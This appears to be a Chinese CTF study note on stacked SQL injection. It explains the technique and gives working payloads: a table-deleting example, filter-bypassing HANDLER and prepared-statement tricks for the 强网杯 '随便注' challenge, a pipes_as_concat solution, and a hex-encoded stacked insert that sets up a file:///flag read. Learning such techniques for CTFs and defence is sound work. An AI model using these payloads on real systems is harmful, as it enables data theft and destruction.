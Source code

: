 堆叠注入（Stacked Injection）是一种 SQL 注入攻击技术，其中攻击者利用应用程序对用户输入的不安全处理，将多个 SQL 查询或命令堆叠在一起，以达到执行多个恶意操作的目的。

通常情况下，SQL 注入攻击是通过在应用程序接受用户输入的地方注入恶意的 SQL 代码来实现的。但在某些情况下，应用程序可能会接受并处理多个用户输入，并将它们拼接成一个或多个 SQL 查询或命令。攻击者可以利用这种情况来构造堆叠注入攻击。

堆叠注入在mysql数据库中并不常见，常见于mssql数据库，mssql数据库是默认堆叠注入的。
```
如用户输入：1; DELETE FROM products
服务器端生成的sql语句为：Select * from products where productid=1;DELETE FROM products
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。
危害巨大。
可以使用盲注，布尔，验证是否存在堆叠注入。
```
<https://kitescat.github.io/2023/05/06/SQL%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5/index.html>

^
## **强网杯随便注**
禁用了preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```
1';show databases;--+
-1';show databases;#  让前面闭合，然后一起回显，注意有时后面要有; 回显库名supersqli
1'and extractvalue(1,concat(0x7e,(database())));--+
1';show tables;--+ 查看到表words和1919810931114514

看字段
-1';use supersqli;show columns from `1919810931114514`;#
1'; show columns from `words`;--+
1'; show columns from `1919810931114514`;--+

直接读表字段的值，知道1919810931114514表有flag字段
1'; handler
1'; handler `1919810931114514` open as `a`; handler `a` read next;#

利用原有的回显，把flag表改名过去。
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#


使用sql预编译
select flag from `1919810931114514`
变成
-1';
set @sql = CONCAT('sele','ct flag from  `1919810931114514`;'); 
prepare stmt from @sql;
EXECUTE stmt;#
```
>Handler语法:
handler语句，一行一行的浏览一个表中的数据
handler语句并不具备select语句的所有功能。
mysql专用的语句，并没有包含到SQL标准中。
HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。
1、HANDLER tbl_name OPEN
打开一张表，无返回结果，实际上我们在这里声明了一个名为tb1_name的句柄。
2、HANDLER tbl_name READ FIRST
获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
3、HANDLER tbl_name CLOSE
关闭打开的句柄。
4、HANDLER tbl_name READ index_name = value
通过索引列指定一个值，可以指定从哪一行开始,通过NEXT继续浏览。

^
## **题型2**
```
post中：
query=1;show databases;
query=1;show columns from Flag;#

猜测语句
select $_GET['query'] || flag from flag

解法payload1：
query=*,1
sql语句就变成了select *,1 || flag from Flag，也就是select *,1 from Flag，
也就是直接查询出了Flag表中的所有内容

解法payload2：
query=1;set sql_mode=pipes_as_concat;select 1
其中set sql_mode=pipes_as_concat的作用是将||的作用由or变为拼接字符串
```





^
## **堆叠注入配合SSRF**
通过堆叠注入插入值，指定10的地址为flag。
```
search.php?title=1';insert into link values(10,'a','file:///flag');


编码绕过，插入16进制编码，写入的内容还是正常字符。
search.php?title=1';insert into link values(10,'a',0x66696c653a2f2f2f7661722f7777772f68746d6c2f616c73636b6466792f636865636b2e706870);
```